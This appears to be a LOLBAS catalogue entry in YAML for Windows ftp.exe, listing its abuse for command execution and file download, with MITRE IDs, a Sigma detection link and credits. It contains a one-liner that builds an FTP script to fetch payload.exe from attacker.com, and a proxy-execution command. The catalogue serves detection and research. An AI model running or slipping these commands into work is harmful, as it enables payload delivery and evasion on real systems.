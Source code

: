 ```yaml
---
Name: Ftp.exe
Description: A binary designed for connecting to FTP servers
Author: Oddvar Moe
Created: 2018-12-10
Commands:
  - Command: echo !{CMD} > ftpcommands.txt && ftp -s:ftpcommands.txt
    Description: Executes the commands you put inside the text file.
    Usecase: Spawn new process using ftp.exe. Ftp.exe runs cmd /C YourCommand
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: CMD
  - Command: cmd.exe /c "@echo open attacker.com 21>ftp.txt&@echo USER attacker>>ftp.txt&@echo PASS PaSsWoRd>>ftp.txt&@echo binary>>ftp.txt&@echo GET /payload.exe>>ftp.txt&@echo quit>>ftp.txt&@ftp -s:ftp.txt -v"
    Description: Download
    Usecase: Spawn new process using ftp.exe. Ftp.exe downloads the binary.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\ftp.exe
  - Path: C:\Windows\SysWOW64\ftp.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_lolbin_ftp.yml
  - IOC: cmd /c as child process of ftp.exe
Resources:
  - Link: https://twitter.com/0xAmit/status/1070063130636640256
  - Link: https://medium.com/@0xamit/lets-talk-about-security-research-discoveries-and-proper-discussion-etiquette-on-twitter-10f9be6d1939
  - Link: https://ss64.com/nt/ftp.html
  - Link: https://www.asafety.fr/vuln-exploit-poc/windows-dos-powershell-upload-de-fichier-en-ligne-de-commande-one-liner/
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: BennyHusted
    Handle: ''
  - Person: Amit Serper
    Handle: '@0xAmit'
---
```

